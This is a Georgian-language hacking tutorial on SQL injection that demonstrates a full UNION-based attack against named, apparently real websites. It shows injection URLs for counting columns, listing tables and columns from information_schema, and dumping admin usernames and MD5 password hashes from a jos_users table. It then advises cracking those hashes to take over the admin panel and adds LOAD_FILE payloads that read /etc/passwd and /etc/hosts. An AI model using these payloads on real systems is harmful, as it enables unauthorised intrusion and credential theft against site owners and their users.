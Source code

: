 # SQL Injection - ინექცია SQL რექვესტში

ალბათ ყველა აქედან იწყებს თავის ჰაკერულ ცხოვრებას :D

ჩვენც დავიწყოთ... :D


ჩემი აზრით მაგალითებზე ყველაზე კარგად ვსწავლობთ, ამიტომ ავიღოთ რომელიმე საიტი მაგალითად :)

# ნაბიჯი #1. ვეძებთ ბაგს!!...


საიტი შემდეგია:

```
http://www.kiis.com.ua/?id=2&sp=1
```

როდესაც მოცემულია მსგავსი ბმულლი (რაღაცა.php?id=რიცხვი), ბაგის საპოვნელად საკმარისია ბმულის ბოლოში **'** -ს მიწერა.

```
http://www.kiis.com.ua/?id=2&sp=1'
```

თუ საიტი ამოგვიგდებს შეცდომას (ოღონდ არა ნებისმიერს) ესე იგი შეიძლება ინექციის განხორციელება. როგორც ხედავთ ამ შემთხვევაშიც შეგვიძლია ინექციის გაკეთება.

    პატარა გადახვევა: ამ შემთხვევაში პირველი ორი შეცდომა არის **include** ფუნქციის, რომელიც ზოგჯერ
    საშუალებას გვაძლევს განვახორციელოთ **Local/Remote File Inclusion** რომელსაც, იმედია 
    განვიხილავთ შემდეგში.


# ნაბიჯი #2. ვითვლით სტოლბებს


ამისათვის ჩვენ შეგვიძლია გამოვიყენოთ order+by ფუნქცია, მაგრამ ამან შეიძლება ყოველთვის არ გაამართლოს და უბრალოდ მოგვიწევს ამ საფეხურის გამოტოვება :)

სტოლბების დათვლა ხდება შემდეგნაირად: ვივარაუდოთ, რომ მოცემულ გვერდს აქვს 10 სტოლბა, ამის შესამოწმებლად ჩვენ ვაკეთებთ შემდეგს...

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+10--
```

როგორც ვხედავთ საიტი ისევ გვიჩვენებს შეცდომას, ეს იმას ნიშნავს, რომ გვაქვს 10 სტოლბაზე ნაკლები. ვაგრძელებთ... შემდეგი ვარაუდი 5 სტოლბა...

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+5--
```

როგორც ხედავთ საიტი აღარ გვაძლევს იმ შეცდომას, რომელიც საშუალებას გვაძლევს განვახორციელოთ ინექცია (მაპატიეთ ტაფტალოგიისთვის:). ეს იმას ნიშნავს, რომ გვაქვს 5 სტოლბაზე მეტი.

ახლა უკვე ჩვენ ვიცით, რომ გვაქვს 5-ზე მეტი და 10-ზე ნაკლები სტოლბა. ვაგრძელებთ თვლას... ვივარაუდოთ 8 სტოლბა:

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+8--
```

ისევ ვხედავთ შეცდომა. ვცადოთ 9 :)

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+9--
```

საიტი არ აგდებს შეცდომას. ალბათ მიხვდით რასაც ნიშნავს ეს :) ჩვენ გვაქვს 9 სტოლბა. :)

# ნაბიჯი #3. ვიპოვოთ პრინტაბელური სტოლბა


ინფორმაციის გამოსატანად ჩვენ დაგვჭირდება **union+select** ბრძანება. რადგანაც ჩვენ გვაქვს 9 სტოლბა ჩვენი ბმული მიიღებს შემდეგ სახეს:

```
http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,5,6,7,8,9--
```

ალბათ შეამჩნიეთ ციფრი 5, რომელიც გაჩნდა ჩვენს გვერდზე. ეს ნიშნავს, რომ პრინტაბული სტოლბა არის 5.

პრინტაბელური სტოლბა საჭიროა იმისათვის, რომ გვერდზე გამოვიყვანოთ ჩვენს მიერ (შემდგომში) მიწოდებული ბრძანების შედეგები.

# ნაბიჟი #4. გავიგოთ sql-ის ვერსია


ამისათვის შემოგთავაზებთ ორ ბრძანებას, **@@version** და **version()**. პრინტაბელი სტოლბის მაგივრად ჩვენ უნდა ჩავსვათ რომელიმე ამ ბრძანებებისგან, საპასუხოდ კი 5-იანის (პრინტაბელური სტოლბის) ადგილას უნდა გამოვიდეს sql-ის ვერსსია. ვაგრძელებთ... ჩვენმა ბმულმა მიიღო შემდეგი სახე:

```
http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,@@version,6,7,8,9--
```

//sql-ის 4 ვერსიაზე ჩვენ ვერ შევძლებთ table-ებისა და column-ების სახელების გაგებას, ამიტომ მოგვიწევს მათი შერჩევა ხელით. გავაგრძელოთ კითხვა, ამ საკითხს მივუბრუნდები სტატიის ბოლოში.//

ამ შემთხვევაში ვხედავთ, რომ sql-ის ვერსიაა 5.x.x.

# ნაბიჯი #5. ვეძებთ table-ებს


ეს ნიშნავს, რომ ჩვენ შეგვიძლია გავიგოთ ყველა table და column შემდეგი ბრძანებების საშუალებით... 

   group_concat(table_name)    +from+information_schema.tables

ბმული გამოიყურება შემდეგნაირად:

```
http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,group_concat(table_name),6,7,8,9+from+information_schema.tables--
```

როგორც ვხედავთ გვერდზე გამოვიდა table-ები, მაგრამ ეს არაა სრული სია. ამ table-ებს შეიძლება დავარქვათ დეფაულტ table-ები, ამიტომ ჩვენ უნდა მოვიხხმარიოთ სხვა ხერხი. ჩვენს ბრძანებას 

   group_concat(table_name) უნდა მივცევთ ცოტა განსხვავებული სახე: **concat(table_name)**

ბმული გამოიყუება შემდეგნაირად:

```
http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(table_name),6,7,8,9+from+information_schema.tables--
```

გამოყოფს table-ებს ერთმანეთისაგან.

# ნაბიჯი #5. ვეძებთ column-ებს


ჩვენ უკვე გავიგეთ table-ების სახელები. ახლა უნდა ამოვარჩიოთ მათგან ყველაზე მიმზიდველი :D ამ შემთხვევაში ალბათ **jos_users**. ამის შემდეგ ჩვენ უნდა გავიგოთ column-ების სახელები, რომლებიც შეესაბამება ამ table-ს. ამისათვის ჩვენ ვიყენებთ შემდეგ ბრძანებას:

   group_concat(column_name)  +from+information_schema.columns+where+table_name=0xTable

სადაც Table ჩვენი არჩეული ცხრილის ჰექსია. ტექსტის ჰექსებში გადაყვანა შეგიძლიათ  [[http://www.swingnote.com/tools/texttohex.php|ამ ბმულზე]].

ჩვენს შემთხვევაში **group_concat** ბრძანება არ მუშაობს გამართულად, ამიტომ აქაც ვიყენებთ მას სახეცვლილი ფორმით:  **concat(column_name)**  

ამ დროისთვის ჩვენი ბმული იღებს ასეთ სახეს:


[[http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(column_name),6,7,8,9+from+information_schema.columns+where+table_name=0x6a6f735f7573657273--]]

**6a6f735f7573657273**  //jos_users//-ის ჰექსია.

# ნაბიჯი #6. ინფორმაციის ამოღება

ჩვენ უკვე ვიცით **jos_users** table-ს შესაბამისი column-ები. ახლა უნდა ავირჩიოთ მათგან რამოდენიმე, ჩვენთვის საინტერესო. ამ შემთხვევაში გვაინტერესებს username და password. **jos_users** table-სგან რომ მოვიპოვოთ ინფორმაცია username-სა და password-ების შესახებ ვაკეთებთ შემდეგს:

```
http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(username,0x3a,password),6,7,8,9+from+jos_users--
```

3a არის **:** -ის ჰექსი (სტანდარტულად, ჰექსის წინ იწერება 0x). ანუ - ჯერ უნდა გამოვიდეს username, შემდეგ :  შემდეგ კი password.

ამ ბმულის მეშვეობით ჩვენ შევძელით ადმინის, ტესტ ადმინის და PR მენეჯერის იუზერნეიმებისა და პაროლების გამოტანა. პაროლი არის დაკრიპტული, MD5 ალგორითმით. მისი გაკრეკვა შეიძლება სხვადასხვა პროგრამების დახმარებით, ასევე არსებობს [[reference:hash_crackers|ონლაინ კრეკერები]].

პაროლის გარკეკვის შემდეგ, შეგვიძლია მოვძებნოთ საიტის ადმინ პანელი და გამოვიყენოთ ადმინის ფუნქციები.


მივუბრუნდეთ 4.x.x sql-ის ვერსიის შემთხვევას. ესეთ შემთხვევაში ჩვენ ვერ გავიგებდით table-ებისა და column-ების სახელებს და მოგვიწევდა მათი ხელით, ან რაიმე პროგრამით მორგება. ეს კი მტკივნეული პროცესია და არც ისე დიდია გამართლების შანსი.

# ნაბიჯი #7. Load File ფუნქციის შესახებ


არის ისეთი შემთხვევებიც როცა ჩვენ შეგვიძლია სხვადასხვა ფაილების წაკითხვა სერვერზე, ინექციის საშუალებით. მგონი საკმარისი იქნება ერთი მაგალითის ჩვენება... და აი ისიც:

```
http://wwww.breakfastandbrunch.com/shop.php?catid=-2+union+select+LOAD_FILE('/etc/passwd')--
```

პრინტაბელური სტოლბის ადგილას უნდა ჩავწეროთ მაგალითად, **LOAD_FILE('/etc/passwd')** ან **LOAD_FILE('/etc/hosts')**

```
http://www.breakfastandbrunnch.com/shop.php?catid=-2+union+select+LOAD_FILE('/etc/hosts')--
```

აქაც შესაძლებელია ჰექსების გამოყენება, მაგალითად:

```
http://www.breakfastandbrunch.com/shop.php?catid=-2+union+select+LOAD_FILE(0x2f6574632f706173737764)--
```

სულ ეს იყო.

მადლობა HektoR-ს რითმისთვის :D

გმადლობთ ყურადღებისთვის.
